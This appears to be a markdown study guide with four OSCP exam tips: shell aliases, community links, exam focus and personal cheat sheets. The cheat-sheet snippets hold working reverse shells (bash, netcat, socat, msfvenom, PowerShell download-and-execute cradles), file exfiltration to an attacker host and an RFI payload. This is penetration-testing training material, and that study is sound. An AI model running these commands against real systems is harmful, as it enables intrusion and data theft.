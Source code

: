 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases in `~/.bashrc` for commands that you will frequently. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use these variables to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:
[Google cheat sheet result count](google_cheat_sheet_count.png)
and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I created:
	1. An enumeration cheat sheet:
	```
	PORT SCAN
	=========
	sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
	sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
	sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

	SERVICE ENUMERATION
	===================
	21 FTP
	22 SSH
		* OpenSSH <= 7.7 has username enumeration vulnerability
			* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
				* source: https://github.com/BlackDiverX/ssh-user-enumeration
			* python 45939.py $targ root
		* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
			* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
	25 SMTP
		* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
		* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
		* shellshock RCE vulnerability exists for postfix smtp server w/procmail
			* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
	...
	```
	2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:
	```
	SHELLS
	======
	* bash -i >& /dev/tcp/$tun0/4444 0>&1
	* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
	* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
	* nc -e /bin/bash $tun0 4444
	* nc -c /bin/bash $tun0 4444
	* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
		* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
	* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
		* netcat shell for nc without -e or -c
		* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
	...
		
	DOWNLOAD FILES TO TARGET
	========================
	* scp $file $user@$targ:~/$file
	* curl http://$tun0:8888/$file -o /tmp/$file
	* wget http://$tun0:8888/$file -O /tmp/$file
	* axel http://$tun0:8888/$file -o /tmp/$file
	...
	
	CRONJOBS
	========
	* use pspy to view short-lived processes
	* check cron log file for cronjobs in execution
		grep "CRON" /var/log/syslog*
	* list all /etc/cron files
		ls -lhra /etc/cron*
	* check /etc/crontab- sometimes sysadmins put tasks
	* users can create cronjobs with crontab -e
		* without adequate permissions we cannot view other users' crontabs
		* crontabs are stored in /var/spool/cron/crontabs/$user
	...
	```
	3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:
	```
	SHELLS
	======
	* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
	* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
	* nc.exe $tun0 4444 -e cmd.exe
	* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
	* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
	...
	
	UPLOAD FILES TO ATTACKER
	========================
	* nc -nvlp 6666 > $file
		* to receive
	* nc.exe $tun0 6666 -w 3 < $file.out
	* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
		* useful for cases without '<'
	* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
	* sudo impacket-smbserver smb_share $directory
		* copy $file.out \\$tun0\smb_share\
	...
	
	GENERAL PRIV ESC
	================
	* whoami /all
		* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
			* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
	* net localgroup Administrators
		* shows who is inside Administrators group
	* dir /b /s *.ext
		* search for files with file extension
	* dir /r
		* view alternate data streams
	* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
		* review user's powershell history
	...
	```
	
Good luck!